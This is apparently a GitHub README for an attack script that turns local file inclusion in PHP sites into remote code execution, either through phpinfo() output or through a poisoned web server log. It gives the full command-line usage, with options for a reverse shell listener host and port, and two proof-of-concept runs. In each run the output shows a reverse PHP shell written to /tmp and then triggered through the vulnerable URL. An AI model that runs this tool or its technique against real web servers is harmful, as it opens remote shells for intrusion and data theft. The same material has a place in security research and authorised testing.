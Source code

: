# LFI to RCE via phpinfo() assistance or via controlled log file 

For more details about exploit via phpinfo(). research from [here](https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf)
For more details about exploit via controlled log file, writeup grom [here](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1)

# Use case
#### About LFI to RCE via phpinfo()
- Found an LFI Vulnerability
- Any script that displays the output of the PHPInfo() function will do. In most cases this will be /phpinfo.php 

#### About LFI to RCE via controlled log file
- Found an LFI Vulnerability
- found the web server log file path or try paths from script.

# Usage 

```
usage: lfito_rce.py [-h] [-a ACTION] -l LFI --lhost LHOST --lport LPORT
                         [--payload PTYPE] [-e REQEND] [-v VERBOSE]
                         [-t THREADS] [-i PHPINFO] [-f LOGFILE]

RCE from LFI with PHPINFO assistance or Via controlled log file

optional arguments:
  -h, --help            show this help message and exit
  -a ACTION, --action ACTION
                        Define the attack type - 1 for PHPINFO and - 2 for
                        controlled log. Value 1 by default
  -l LFI, --lfi LFI     the url path of the LFI vuln, per example
                        "http://127.0.0.1:8080/lfi.php?file="
  --lhost LHOST         The local ip to listen, for rev shell
  --lport LPORT         The local port to listen, for rev shell
  --payload PTYPE       Set the type of payload to use. 1|2|3 By default
                        payload is set to 3
  -e REQEND, --end REQEND
                        Define any end of lfi request, per examlpe "%00" by
                        default the end request is empty
  -v VERBOSE, --verbose VERBOSE
                        Define verbose output. set to False by default
  -t THREADS, --threads THREADS
                        [For phpinfo action]. Threads number, set to 10 by
                        default
  -i PHPINFO, --phpinfo PHPINFO
                        [For phpinfo action]. Define the url path of the
                        "phpinfo" script. Per ex: "http://host/phpinfo.php"
  -f LOGFILE, --logfile LOGFILE
                        [For controlled log action]. Define the path of the
                        http server log file. By default script will use
                        bruteforce

```


# POC
#### About LFI to RCE via phpinfo() 

```
$ python lfito_rce.py -l "http://host/browse.php?file=" --lhost 127.0.0.1 --lport 9001  -t 12  -i "http://host:8080/phpinfo.php"

 ____   ____   ____   ____ _     _       _              _ 
|  _ \ / __ \ / /\ \ / ___| |__ / |____ | |_ ___   ___ | |
| |_) / / _` | |  | | |  _| '_ \| |_  / | __/ _ \ / _ \| |
|  _ < | (_| | |  | | |_| | | | | |/ /  | || (_) | (_) | |
|_| \_\ \__,_| |  | |\____|_| |_|_/___|  \__\___/ \___/|_|
       \____/ \_\/_/                                      

Find all scripts in: https://github.com/roughiz


LFI With PHPInfo() RCE script
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Spawning worker pool (12)...
  24 /  1000
Got it! Reverse php Shell created in /tmp/IVA1XpPtHGjS.php

Yep! The payload works great !

I will execute the reverse shell, requesting the url: http://host/browse.php?file=/tmp/IVA1XpPtHGjS.php

Verify your nc listenner 127.0.0.1:9001
Shuttin' down...

```

#### About LFI to RCE via controlled log file

```
$ python lfito_rce.py -a 2 -l "http://host/browse.php?file=" --lhost 127.0.0.1 --lport 9001

 ____   ____   ____   ____ _     _       _              _ 
|  _ \ / __ \ / /\ \ / ___| |__ / |____ | |_ ___   ___ | |
| |_) / / _` | |  | | |  _| '_ \| |_  / | __/ _ \ / _ \| |
|  _ < | (_| | |  | | |_| | | | | |/ /  | || (_) | (_) | |
|_| \_\ \__,_| |  | |\____|_| |_|_/___|  \__\___/ \___/|_|
       \____/ \_\/_/                                      

Find all scripts in: https://github.com/roughiz


LFI RCE via controlled log
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

  16 /   26
Got it! Reverse php Shell created in /tmp/k0THSi7vdS58.php

I will execute the reverse shell, requesting the url: http://host/browse.php?file=/tmp/k0THSi7vdS58.php

Verify your nc listenner 127.0.0.1:9001

```

### Nota 

Install the pyfiglet python module like :

```
$ sudo pip install pyfiglet
```

